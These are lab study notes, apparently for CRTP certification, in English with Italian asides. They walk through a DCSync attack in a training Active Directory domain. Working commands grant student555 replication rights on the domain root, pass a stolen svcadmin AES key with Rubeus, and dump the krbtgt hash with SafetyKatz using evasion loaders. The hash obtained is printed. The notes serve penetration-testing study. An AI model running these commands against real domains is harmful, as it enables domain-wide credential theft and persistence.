

> [!INFO] Learning objectives
> 1. Check if `student555` has Replication (DCSync) rights.
> 2. If yes execute the DCSync attack to pull hashes of the `krbtgt` user
> 3. If no, add the replication rights for the `student555` and execute the `DCSync` attack to pull hashes of `krbtgt` user

  

## Understanding the attack path
In this learning objective, we want to understand how Active Directory replication permissions can become a path to domain-wide credential exposure.

We will start from our **Student VM** as `student555`, inspect the access control entries (ACEs) on the domain root, and determine whether our identity appears to have replication rights.

We then use a previously obtained `svcadmin` authentication context to change the domain root ACL. 
Finally, we verify that `student555` has a matching ACE and inspect the lab's recorded DCSync result for `krbtgt`.

  



  

> [!NOTE] 
> Vogliamo capire se `student555` possiede i **diritti di replica di Active Directory** necessari per richiedere dati sensibili attraverso il protocollo di replica.
> 
> Partiamo da una verifica dei permessi sull'oggetto radice del dominio. 
> Poiché nei nostri appunti non compare alcun risultato per `student555`, sfruttiamo un contesto privilegiato già ottenuto in precedenza (`svcadmin`) per modificare l'ACL del dominio.


## 1. Prepare our PowerShell environment

First, we need PowerView to inspect the permissions stored in Active Directory. We begin from our Student VM and load the lab environment:

```powershell
. C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

. C:\AD\Tools\PowerView.ps1
```

---

## 2. Check whether `student555` has DCSync rights


> [!warning] HINTS
> When checking domain ACLs, we should consider direct ACEs and rights inherited through group memberships. 
> 
> An empty result from a username-only filter is not conclusive evidence that the effective permission is absent.


Now we need to inspect the access control list of the **domain root**:

```text
DC=dollarcorp,DC=moneycorp,DC=local
```

We can use the PowerView query:

```powershell
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student555"}
```


### Understanding the quer
| Component                                   | Purpose                                                                               |
| ------------------------------------------- | ------------------------------------------------------------------------------------- |
| `Get-DomainObjectAcl`                       | Reads access control entries for the selected Active Directory object.                |
| `-SearchBase`                               | Specifies the distinguished name of the domain root.                                  |
| `-SearchScope Base`                         | Restricts the LDAP search to that object, rather than its descendants.                |
| `-ResolveGUIDs`                             | Resolves certain rights GUIDs into human-readable names.                              |
| `?{ ... }`                                  | Filters the returned access control entries. `?` is an alias for `Where-Object`.      |
| `ObjectAceType -match 'replication-get'`    | Selects ACEs whose resolved extended-right names match the pattern used in the notes. |
| `ActiveDirectoryRights -match 'GenericAll'` | Also includes full-control ACEs.                                                      |
| `Convert-SidToName`                         | Converts an ACE's security identifier (SID) into a readable account name.             |
| `Add-Member ... IdentityName`               | Adds that readable identity to each output object.                                    |
| `IdentityName -match 'student555'`          | Keeps entries whose resolved identity matches our lab user.                           |

### Our observation

> [!IMPORTANT] Interpretation
> A blank result means **this specific query did not find a matching ACE**. 


> [!NOTE] 🇮🇹 Spiegazione in italiano
> Con questo comando stiamo leggendo le autorizzazioni sull'**oggetto radice del dominio**, non sulla singola macchina `dcorp-dc`.
>
> Il filtro cerca diritti di replica oppure permessi `GenericAll`, poi mostra solo quelli attribuiti direttamente a identità il cui nome corrisponde a `student555`.
>
> **Correzione importante:** nessun risultato non significa automaticamente “non abbiamo i permessi”. La query potrebbe non mostrare diritti assegnati a un gruppo di cui facciamo parte. Nel nostro laboratorio interpretiamo il risultato come *nessuna ACE corrispondente individuata*
### Which rights matter?

> [!warning] HINTS
> We should look for the relevant replication extended rights on the domain root and distinguish them from broad rights such as `GenericAll`. 
> 
> A single permission label does not always capture the complete effective-access picture.

DCSync is associated with Active Directory replication permissions, particularly:
- `DS-Replication-Get-Changes` — Replicating Directory Changes.
- `DS-Replication-Get-Changes-All` — Replicating Directory Changes All, which is important for sensitive replicated attributes.
- `DS-Replication-Get-Changes-In-Filtered-Set` — relevant to certain filtered attributes in some configurations.
`GenericAll` on the domain root is broader than those individual extended rights.

---
  

## 3. Use the previously obtained `svcadmin` context

Because our initial query produced no matching ACE, the lab now uses authentication material obtained in an earlier learning objective.
  
Back on our Student VM, we use the following  **command** to create a network authentication context associated with `svcadmin`:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

We then prepare the shell created in the lab

```powershell
C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat
. C:\AD\Tools\PowerView.ps1
```

---
## 4. Modify the domain root ACL in the lab

> [!warning] HINTS
> Here the important privilege boundary is the domain naming-context ACL. 
> 
> Replication permission is not the same as joining Domain Admins or becoming a local administrator on the Domain Controller.


Now we reach the part where the domain root ACL is modified. The following is the **command recorded we can use**:

```powershell
Add-DomainObjectAcl -targetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student555 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -targetDomain dollarcorp.moneycorp.local -verbose
```

![[Pasted image 20261125161224.png]]

### What the command represents
- `Add-DomainObjectAcl` changes access control entries on an Active Directory object.
- `-TargetIdentity` identifies the domain root whose ACL is being modified.
- `-PrincipalIdentity student555` identifies the user receiving the permission.
- `-Rights DCSync` is the PowerView rights preset used for directory replication permissions.
- `-PrincipalDomain` and `-TargetDomain` identify the domains involved in resolving the principal and target.
- `-Verbose` requests detailed execution messages.


> [!NOTE] 
> In questo passaggio la modifica riguarda l'**ACL dell'oggetto dominio**. Non stiamo aggiungendo `student555` ai Domain Admins e non stiamo modificando il gruppo Administrators di `dcorp-dc`.
>
> Stiamo assegnando diritti legati alla replica della directory. Dal punto di vista della sicurezza questa è una modifica molto sensibile: può permettere l'esposizione dei segreti memorizzati in Active Directory senza che l'utente debba diventare Domain Admin.


---
## 5. Verify the replication permissions again

> [!warning] HINTS
> We should compare the before-and-after ACE evidence rather than rely only on a successful status message. 
> 
> That helps separate an intended permission change from a verified effective change.


We return to a normal PowerShell session on our Student VM and **run the same `Get-DomainObjectAcl`:

```powershell
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student555"}
```

![[Pasted image 20261125161520.png|513]]
- The second query now displays an ACE for `student555` that matches our filter.


---

## 6. Understand the recorded DCSync result

The next objective is to examine the replication-based retrieval of authentication material for the domain's `krbtgt` account.

So we now can use this invocation:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

![[Pasted image 20261125163324.png]]


What we obtained is the `krbtgt aes256` :

```text

154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848

```

### Why is `krbtgt` important?

It can support forged Kerberos ticket attacks, such as Golden Tickets, under the appropriate conditions.

> [!NOTE] 
> **DCSync non è un dump locale di LSASS.** È un utilizzo del meccanismo di replica di Active Directory per richiedere informazioni al Domain Controller.
>
>L'account scelto è `krbtgt`, particolarmente delicato perché partecipa al funzionamento di Kerberos e alla protezione dei Ticket Granting Ticket.

> [!NOTE]
> Il filo logico è: **controlliamo i diritti → troviamo un percorso per modificare l'ACL → verifichiamo i nuovi permessi → comprendiamo il risultato DCSync**.
>
> 

  
## CRTP quick reference

| Concept               | What we need to remember                                                        |
| --------------------- | ------------------------------------------------------------------------------- |
| Domain root ACL       | Controls permissions assigned to the domain naming context.                     |
| ACE                   | A single entry granting or denying permissions to a security principal.         |
| `Get-DomainObjectAcl` | Enumerates directory permissions.                                               |
| `-ResolveGUIDs`       | Makes certain extended-right names easier to interpret.                         |
| `GenericAll`          | Full control; broader than individual replication rights.                       |
| `Add-DomainObjectAcl` | Changes the ACL of a domain object when the caller is authorized.               |
| DCSync rights         | Relevant directory replication permissions, not local administrator membership. |
| `svcadmin` context    | Existing privileged network identity used earlier in the exercise.              |
| `krbtgt`              | Sensitive Kerberos account whose secret material supports TGT cryptography.     |
| Empty query result    | Does not conclusively prove absence of effective permissions.                   |
